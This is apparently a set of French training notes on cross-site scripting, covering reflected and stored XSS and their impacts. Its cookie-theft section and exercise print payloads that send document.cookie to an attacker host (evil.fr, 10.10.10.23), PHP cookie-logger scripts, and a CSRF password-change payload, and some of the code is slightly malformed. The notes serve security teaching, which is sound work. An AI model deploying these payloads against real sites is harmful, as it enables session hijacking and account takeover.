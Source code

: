 # Sites
https://github.com/payloadbox/xss-payload-list
http://www.xss-payloads.com/index.html

# XSS
Type d’injection permettant de faire exécuter du code sur le navigateur de la victime, par le biais d’une page web pour généralement :
-  Redirection de page web
-  Vol de cookies
-  Défacement du site web
-  Phishing
-  Etc.
Il existe plusieurs types d’injection XSS.
##### Vecteurs d’attaque
-  JavaScript activé par défaut sur les navigateurs
-  Toutes les entrées d’une application (URL, Headers, formulaires, ...)
-  Les payloads XSS sont tweakables
-  Des bots automatisent la recherche et l’infection
##### Faiblesse applicative
-  Pas de nettoyage des entrées utilisateurs
-  Pas de sensibilisation des utilisateurs (phishing)
-  Headers de sécurité absents
###### Impacts techniques
-  Vol de session
-  Defacing
-  Keylogger
-  Ver XSS
###### Impacts Business
-  Opérationnel
-  Financier
-  Image
-  Légal
##### XSS Reflected
-  Le code malveillant est injecté dans une requête HTTP (URI, paramètres, headers, etc ...) ;
-  L’injection n’est pas stockée donc non persistante ;
-  Demande une interaction de la victime.
##### Minifiers d’URL
Un exemple : bitly, tinyurl
![[FORMATION EXPERT SECURITE DIGITALE (ESD)/RESSOURCES/Images/Pasted image 20221130111327.png]]
##### XSS Stored
Le code malveillant injecté est enregistré en base de données (donc persistant).
Il est restitué à chaque fois que la victime appelle la ressource.
1. Le payload est injecté dans le formulaire (devenant stocké en base de données).
2. Lorsqu’un utilisateur consultera la page web contenant le payload, celui-ci sera exécuté par le navigateur de la victime.
##### Vol de cookie
Pour voler un cookie via XSS, l’attaquant a besoin de deux éléments :
-  Un payload javascript qui sera activé par la victime (envoyant le cookie sur le serveur web de l’attaquant)
```js
<script>
http://vuln.fr/page=script.location.href="http://evil.fr/cookie.php?cookie="+document.cookie;
</script>

// Afficher le cookie en alert JS
<script> alert ('document.cookie') </script>

// steal cookie and saves it to cookielist.txt
<?php
$logfile = fopen('cookielist.txt', 'a+');
fwrite($logfile, $_get['cookie']."\r\n")
fclose($logfile)
?>

```
-  Un serveur web contenant un logger qui réceptionnera le cookie envoyé
```php
<?php
	header ('Location:https://google.com');
		if (isset($_GET["c"]))
			{
				$cookies = base64_decode(urldecode($_GET["c"]));
				$file = fopen('log.txt', 'a');
				fwrite($file, $cookies . "\n\n");
			}
?>
```
Lorsque la victime activera le payload de l’attaquant, celui-ci enverra l’objet document.cookie (le cookie du site web enregistré dans le navigateur) sur le serveur web de l’attaquant, qui l’enregistrera dans un fichier .txt (grâce au logger cookie.php).

Aller plus loin
-  https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
-  https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

### Exercice
**PAYLOAD CSRF via XSS (Requetes URL GET)  
 ```js
//**PAYLOAD CSRF via XSS (Requetes URL GET)**
<img src="[http://bwapp.esdown.eu/csrf_1.php?password_new=toor&password_conf=toor&action=change"&gt](http://bwapp.esdown.eu/csrf_1.php?password_new=toor&password_conf=toor&action=change"&gt);    

//**PAYLOAD STEALKER COOKIE silent**
<script>var i=new Image;i.src="[http://10.10.10.23/loguer.php?cookie="+document.cookie;</script&gt](http://10.10.10.23/loguer.php?cookie="+document.cookie;</script&gt);  

<img src=x onerror="this.src='[http://10.10.10.23:8888/?'+document.cookie](http://10.10.10.23:8888/?'+document.cookie); this.removeAttribute('onerror');">
```
